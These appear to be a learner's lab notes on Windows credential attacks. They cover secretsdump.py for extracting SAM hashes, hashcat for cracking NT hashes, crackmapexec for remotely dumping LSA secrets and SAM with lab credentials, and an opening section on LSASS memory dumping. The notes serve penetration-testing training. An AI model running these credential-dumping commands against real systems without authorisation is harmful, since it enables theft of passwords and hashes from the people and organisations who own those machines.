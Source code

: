 ## Dumping Hashes with Impacket's secretsdump.py
One incredibly useful tool we can use to dump the hashes offline is Impacket's `secretsdump.py`. Impacket can be found on most modern penetration testing distributions. We can check for it by using `locate` on a Linux-based system:
```bash
/usr/lib/python3/dist-packages/impacket/examples/secretsdump.py
```
#### Running secretsdump.py

```shell-session
AhmaDb0x@htb[/htb]$ python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```
#### Running Hashcat against NT Hashes
-save hashes in .txt files
```shell-session
sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt
```


## Remote Dumping & LSA Secrets Considerations

#### Dumping LSA Secrets Remotely
```shell-session
AhmaDb0x@htb[/htb]$ crackmapexec smb 10.129.11.189 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa
```
#### Dumping SAM Remotely

```shell-session
AhmaDb0x@htb[/htb]$ crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --sam
```




# Attacking LSASS
LSASS is a critical service that plays a central role in credential management and the authentication processes in all Windows operating systems.

Upon initial logon, LSASS will:

- Cache credentials locally in memory
- Create [access tokens](https://docs.microsoft.com/en-us/windows/win32/secauthz/access-tokens)
- Enforce security policies
- Write to Windows [security lo](https://docs.microsoft.com/en-us/windows/win32/eventlog/event-logging-security)

techniques and tools we can use to dump LSASS memory and extract credentials from a target running Windows.:
## Dumping LSASS Process Memory
Similar to the process of attacking the SAM database, with LSASS, it would be wise for us first to create a copy of the contents of LSASS process memory via the generation of a memory dump. Creating a dump file lets us extract credentials offline using our attack host. Keep in mind conducting attacks offline gives us more flexibility in the speed of our attack and requires less time spent on the target system. There are countless methods we can use to create a memory dump. Let's cover techniques that can be performed using tools already built-in to Windows.
